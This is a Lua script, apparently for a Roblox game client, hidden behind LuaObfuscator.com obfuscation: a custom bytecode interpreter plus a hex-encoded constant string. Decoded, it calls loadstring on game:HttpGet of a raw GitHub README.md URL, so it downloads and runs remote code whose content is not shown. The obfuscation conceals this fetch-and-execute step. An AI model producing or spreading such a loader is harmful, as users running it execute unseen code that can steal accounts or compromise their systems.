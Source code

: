 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v82=0;while true do if (v82==0) then v19=v0(v3(v30,1,1));return "";end end else local v83=0;local v84;while true do if (v83==0) then v84=v2(v0(v30,16));if v19 then local v100=v5(v84,v19);v19=nil;return v100;else return v84;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v85=0 -0 ;local v86;while true do if (v85==((350 -(87 + 263)) -0)) then v86=(v31/((3 -1)^(v32-(1 -0))))%((4 -2)^(((v33-(620 -(555 + 64))) -(v32-(4 -3))) + (932 -(857 + 74)))) ;return v86-(v86%((749 -(67 + 113)) -(367 + 201))) ;end end else local v87=0 + 0 ;local v88;while true do if (v87==(957 -(892 + 65))) then v88=(4 -2)^(v32-(928 -(214 + 713))) ;return (((v31%(v88 + v88))>=v88) and (1 + 0 + 0)) or (0 + 0) ;end end end end local function v21() local v34=952 -((1799 -(915 + 82)) + 150) ;local v35;while true do if (v34==((0 -0) -0)) then v35=v1(v16,v18,v18);v18=v18 + (1 -0) ;v34=1 + 0 ;end if ((3 -2)==v34) then return v35;end end end local function v22() local v36,v37=v1(v16,v18,v18 + 2 + 0 );v18=v18 + (2 -0) ;return (v37 * (1443 -(1069 + 118))) + v36 ;end local function v23() local v38,v39,v40,v41=v1(v16,v18,v18 + (6 -3) );v18=v18 + (8 -(795 -(368 + 423))) ;return (v41 * (2916682 + 13860534)) + (v40 * (116444 -50908)) + (v39 * (254 + 2)) + v38 ;end local function v24() local v42=0 -(1423 -(630 + 793)) ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if ((20 -(10 + 8))==v42) then v47=v20(v44,21,119 -88 );v48=((v20(v44,(1606 -1132) -(416 + 26) )==(3 -2)) and  -(1 + 0)) or (1 -0) ;v42=441 -(145 + 293) ;end if ((433 -(44 + 386))==v42) then if (v47==(1486 -(998 + 488))) then if (v46==0) then return v48 * (0 + (0 -0)) ;else v47=1 + 0 ;v45=772 -(201 + 571) ;end elseif (v47==2047) then return ((v46==(1138 -(116 + 1022))) and (v48 * ((4 -3)/(0 + 0)))) or (v48 * NaN) ;end return v8(v48,v47-((1471 + 2263) -2711) ) * (v45 + (v46/(((24 -17) -5)^(911 -(814 + 45))))) ;end if (v42==(2 -1)) then v45=1 + (1747 -(760 + 987)) ;v46=(v20(v44,1 + 0 ,905 -(261 + 624) ) * (2^(1945 -(1789 + 124)))) + v43 ;v42=3 -1 ;end if (v42==(1080 -(1020 + 60))) then v43=v23();v44=v23();v42=767 -(745 + 21) ;end end end local function v25(v49) local v50=0 + 0 ;local v51;local v52;while true do if (1==v50) then v51=v3(v16,v18,(v18 + v49) -1 );v18=v18 + v49 ;v50=5 -3 ;end if (v50==(7 -5)) then v52={};for v92=(2 -1) + 0 , #v51 do v52[v92]=v2(v1(v3(v51,v92,v92)));end v50=3 + 0 ;end if (v50==0) then v51=nil;if  not v49 then v49=v23();if (v49==(1055 -(87 + 968))) then return "";end end v50=4 -3 ;end if (v50==(3 + 0)) then return v6(v52);end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return 0 -0 ;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();while true do local v67=(function() return 0 -0 ;end)();while true do if (v67==(3 -2)) then if (v53~=2) then else v58[ #"nil"]=(function() return v21();end)();for v101= #"}",v23() do local v102=(function() return v21();end)();if (v20(v102, #"|", #":")~=0) then else local v109=(function() return 0;end)();local v110=(function() return;end)();local v111=(function() return;end)();local v112=(function() return;end)();while true do if ((868 -(550 + 317))==v109) then v112=(function() return {v22(),v22(),nil,nil};end)();if (v110==0) then local v162=(function() return 0 -0 ;end)();local v163=(function() return;end)();while true do if (0==v162) then v163=(function() return 0 -0 ;end)();while true do if (v163~=(0 -0)) then else v112[ #"nil"]=(function() return v22();end)();v112[ #"0313"]=(function() return v22();end)();break;end end break;end end elseif (v110== #">") then v112[ #"91("]=(function() return v23();end)();elseif (v110==2) then v112[ #"91("]=(function() return v23() -(2^(301 -(134 + 151))) ;end)();elseif (v110~= #"asd") then else local v176=(function() return 0;end)();local v177=(function() return;end)();while true do if (v176==0) then v177=(function() return 1665 -(970 + 695) ;end)();while true do if (v177==(0 -0)) then v112[ #"91("]=(function() return v23() -(2^16) ;end)();v112[ #"0313"]=(function() return v22();end)();break;end end break;end end end v109=(function() return 2;end)();end if (3==v109) then if (v20(v111, #"nil", #"gha")== #"!") then v112[ #"http"]=(function() return v60[v112[ #"asd1"]];end)();end v55[v101]=(function() return v112;end)();break;end if (0==v109) then local v152=(function() return 1990 -(582 + 1408) ;end)();while true do if (v152==(0 -0)) then v110=(function() return v20(v102,2, #"asd");end)();v111=(function() return v20(v102, #"xnxx",7 -1 );end)();v152=(function() return 3 -2 ;end)();end if (v152~=1) then else v109=(function() return 1825 -(1195 + 629) ;end)();break;end end end if (v109~=(2 -0)) then else if (v20(v111, #".", #",")== #"<") then v112[243 -(187 + 54) ]=(function() return v60[v112[782 -(162 + 618) ]];end)();end if (v20(v111,2 + 0 ,2 + 0 )== #".") then v112[ #"nil"]=(function() return v60[v112[ #"xnx"]];end)();end v109=(function() return 3;end)();end end end end for v103= #".",v23() do v56,v103,v28=(function() return v54(v56,v103,v28);end)();end return v58;end break;end if (v67==(0 -0)) then if (v53~=(1 -0)) then else v58=(function() return {v55,v56,nil,v57};end)();v59=(function() return v23();end)();v60=(function() return {};end)();for v104= #"~",v59 do local v105=(function() return 0;end)();local v106=(function() return;end)();local v107=(function() return;end)();local v108=(function() return;end)();while true do if (v105~=0) then else v106=(function() return 0;end)();v107=(function() return nil;end)();v105=(function() return 1 + 0 ;end)();end if (v105==1) then v108=(function() return nil;end)();while true do if (v106==(1636 -(1373 + 263))) then local v153=(function() return 1000 -(451 + 549) ;end)();local v154=(function() return;end)();while true do if (v153==0) then v154=(function() return 0 + 0 ;end)();while true do if (v154~=0) then else local v173=(function() return 0 -0 ;end)();while true do if (v173==1) then v154=(function() return 1 -0 ;end)();break;end if (v173==(1384 -(746 + 638))) then v107=(function() return v21();end)();v108=(function() return nil;end)();v173=(function() return 1 + 0 ;end)();end end end if (v154==1) then v106=(function() return 1;end)();break;end end break;end end end if (v106==1) then if (v107== #"~") then v108=(function() return v21()~=(0 -0) ;end)();elseif (v107==2) then v108=(function() return v24();end)();elseif (v107== #"19(") then v108=(function() return v25();end)();end v60[v104]=(function() return v108;end)();break;end end break;end end end v53=(function() return 343 -(218 + 123) ;end)();end if (v53==(1581 -(1535 + 46))) then local v99=(function() return 0 + 0 ;end)();while true do if (v99~=(0 + 0)) then else v54=(function() return function(v144,v145,v146) local v147=(function() return 0;end)();while true do if (v147==(560 -(306 + 254))) then v144[v145-#":" ]=(function() return v146();end)();return v144,v145,v146;end end end;end)();v55=(function() return {};end)();v99=(function() return 1 + 0 ;end)();end if (v99==(3 -1)) then v53=(function() return 1468 -(899 + 568) ;end)();break;end if (v99~=1) then else v56=(function() return {};end)();v57=(function() return {};end)();v99=(function() return 2 + 0 ;end)();end end end v67=(function() return 1;end)();end end end end local function v29(v61,v62,v63) local v64=v61[2 -1 ];local v65=v61[605 -(268 + 335) ];local v66=v61[293 -(60 + 230) ];return function(...) local v68=v64;local v69=v65;local v70=v66;local v71=v27;local v72=573 -(426 + 43 + 103) ;local v73= -(1 + 0);local v74={};local v75={...};local v76=v12("#",...) -1 ;local v77={};local v78={};for v89=811 -(569 + 123 + 119) ,v76 do if (v89>=v70) then v74[v89-v70 ]=v75[v89 + (2 -1) ];else v78[v89]=v75[v89 + 1 ];end end local v79=(v76-v70) + 1 + 0 + 0 ;local v80;local v81;while true do v80=v68[v72];v81=v80[(232 + 793) -(706 + 318) ];if (v81<=7) then if (v81<=3) then if (v81<=(1252 -(721 + 530))) then if (v81>0) then local v113=1271 -((2422 -1477) + 326) ;local v114;local v115;local v116;local v117;while true do if ((3244>1055) and ((v113==1) or (2874<2181))) then v73=(v116 + v114) -(2 -1) ;v117=0;v113=1553 -(1126 + 425) ;end if (v113==(2 + 0)) then for v168=v114,v73 do v117=v117 + (701 -(271 + 429)) ;v78[v168]=v115[v117];end break;end if ((v113==(0 + 0)) or (3313<=1778)) then v114=v80[(1915 -(15 + 398)) -((1813 -(118 + 287)) + 92) ];v115,v116=v71(v78[v114](v13(v78,v114 + 1 ,v80[1089 -(461 + 625) ])));v113=1289 -(993 + 295) ;end end else do return;end end elseif ((v81==(1 + (983 -(18 + 964)))) or (2689<=343) or (1421>=2104)) then v78[v80[1173 -(418 + (2834 -2081)) ]]=v63[v80[2 + 1 + 0 ]];else do return;end end elseif ((1812<=3249) and (v81<=(1 + 4))) then if ((1623<=1957) and ((v81==(2 + 0 + 2)) or (1869==2009))) then local v120=v80[1 + 1 ];local v121=v78[v80[532 -((1591 -1185) + 123) ]];v78[v120 + (1770 -((2870 -(118 + 1003)) + 20)) ]=v121;v78[v120]=v121[v80[1 + 3 ]];else v78[v80[1324 -(1249 + 73) ]]();end elseif ((4412==4412) and ((v81==(3 + 3)) or (3546<2322))) then local v125=(1995 -(20 + 830)) -(466 + (1987 -1308)) ;local v126;local v127;while true do if (v125==(2 -1)) then v78[v126 + (2 -1) ]=v127;v78[v126]=v127[v80[1904 -(106 + 1794) ]];break;end if (v125==(0 + 0)) then v126=v80[1 + 1 ];v127=v78[v80[8 -5 ]];v125=2 -(378 -(142 + 235)) ;end end else v78[v80[2]]={};end elseif ((1750>=842) and (v81<=(125 -(4 + 86 + 24)))) then if ((4372>1850) and (v81<=(593 -(57 + 527)))) then if (v81==((6509 -5074) -(41 + 1386))) then v78[v80[105 -(17 + 86) ]]=v80[1 + 2 ];else local v131=v80[2 + 0 ];v78[v131]=v78[v131](v13(v78,v131 + (978 -(553 + 424)) ,v73));end elseif (v81==(22 -12)) then v78[v80[5 -3 ]]=v63[v80[(319 -150) -(122 + 44) ]];else local v135=v80[2 -0 ];local v136,v137=v71(v78[v135](v13(v78,v135 + (3 -2) ,v80[3 + 0 ])));v73=(v137 + v135) -(1 + 0) ;local v138=0;for v148=v135,v73 do v138=v138 + (1 -(126 -(116 + 10))) ;v78[v148]=v136[v138];end end elseif ((232<821) and (v81<=((69 + 9) -(30 + 3 + 32)))) then if ((v81>(9 + 3)) or (2082==4773)) then v78[v80[2]]={};else local v140=v80[1259 -(1043 + 214) ];v78[v140]=v78[v140](v13(v78,v140 + 1 ,v73));end elseif (v81>(52 -38)) then v78[v80[1214 -(323 + (1627 -(542 + 196))) ]]=v80[7 -4 ];else v78[v80[582 -(361 + 219) ]]();end v72=v72 + ((687 -366) -(53 + 267)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q7470476574034D3Q00682Q7470733A2Q2F7261772E67697468756275736572636F6E74656E742E636F6D2F41686D613137342F536C696365722D66652F726566732F68656164732F6D61696E2F524541444D452E6D6400094Q000D7Q001202000100013Q001202000200023Q002004000200020003001208000400044Q0001000200044Q000C00013Q00022Q00050001000100016Q00017Q00",v9(),...);
